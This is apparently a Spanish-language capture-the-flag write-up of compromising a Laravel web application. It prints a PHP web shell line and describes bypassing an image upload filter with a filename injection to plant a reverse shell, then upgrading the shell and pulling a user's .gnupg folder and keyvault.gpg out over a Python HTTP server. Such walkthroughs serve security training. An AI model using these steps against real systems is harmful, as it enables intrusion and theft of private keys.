 Podremos entrar dentro de la pagina y somos el usuario hish
![[remote-blog/images/Pasted image 20250504232527.png]]

![[remote-blog/images/Pasted image 20250504235451.png]]

<?php system($_REQUEST['cmd']); ?>

### Entrando dentro de la maquina
![[remote-blog/images/Pasted image 20250505214947.png]]
Dentro del apartado del profile, podemos encontrar una vulnerabilidad de subida de imagen, en este caso queremos capturar la subida del archivo (solo permite jpeg ya que LARAVEL permite esto)

Ponemos a capturar con el Burpsuite dentro del profile al momento de hacer upload y obtenemos lo siguiente

![[remote-blog/images/Pasted image 20250505220837.png]]
Podemos ver que hemos capturado el packete de la subida de nuestra imagen y ahora lo que vamos a realizar es poner nuestra rev shell

Por lo que realizamos lo siguiente
Primero mandamos a nuestro packet dentro del repeater -> esto para ir probando constantemente 
Luego eliminamos todo lo que tenga que ver con respecto a la imagen (desde la linea 26 para abajo) y la reemplazamos con nuestra propia rev shell

![[remote-blog/images/Pasted image 20250505221018.png]]

Quedaría algo así y lo más importante es reemplazar el nombre del filename para hacer que nuestra rev shell se sube sin ningun tipo de problema
Por lo que realizamos un character inyection

![[remote-blog/images/Pasted image 20250505221110.png]]

![[remote-blog/images/Pasted image 20250505221120.png]]

Verificamos que está bien puesto el filename y la rev shell y mandamos el paquete, por lo que de la misma manera activamos nuestro listener dentro de nuesta maquina y ya estamos dentro de la maquina siendo usuario www-data

![[remote-blog/images/Pasted image 20250505221641.png]]

Una vez dentro, buscamos al user
![[remote-blog/images/Pasted image 20250505222059.png]]
para poner la terminal persistente una vez dentro, eso va a ser que no se cierre la sesion tan rapidamente:
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

dentro de esto tenemos que descargar dentro de nuestra maquina local el archivo .gnupg y el archivo keyvault.gpg (esto se encuentra dentro de la carpeta del hish)

abrimos un servidor python dentro del servidor de environment
`python -m http.server 8500` -> en este caso elegimos el puerto que queremos en el cual podemos descargar
